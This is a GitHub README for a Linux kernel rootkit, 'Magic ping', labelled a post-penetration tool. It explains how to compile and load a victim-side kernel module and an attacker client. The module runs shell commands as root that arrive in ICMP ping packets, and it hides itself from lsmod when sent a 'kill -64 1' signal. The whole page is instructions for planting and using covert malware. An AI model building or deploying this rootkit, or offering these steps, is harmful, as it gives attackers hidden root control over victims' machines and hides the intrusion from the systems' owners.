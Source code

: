 Magic ping - shell execution

<div align="center">
<img src="https://img.shields.io/badge/License-MIT-informational" alt="License - MIT">
<a href="https://github.com/Zhang1933/linux-rootkit"><img src="https://img.shields.io/static/v1?label=Security&message=Post+penetration+tool&color=informational" alt="Security - Post penetration tool"></a>

<a href="https://github.com/Zhang1933/linux-rootkit"><img src="https://img.shields.io/static/v1?label=Tested+on&message=5.4.0-109-generic+%23123-Ubuntu+x86_64+GNU%2FLinux&color=yellowgreen" alt="Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux"></a>
</div>



## Features:

* Romete shell command execution by ping.
* Hiding (Showing) Kernel Module from Userspace. 


## Compile 

### compile server(victim) kernel module:
```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.mod
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```
Use `lsmod` to check.

## TODO:

* Kernel version > 5.7 supporting.

## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
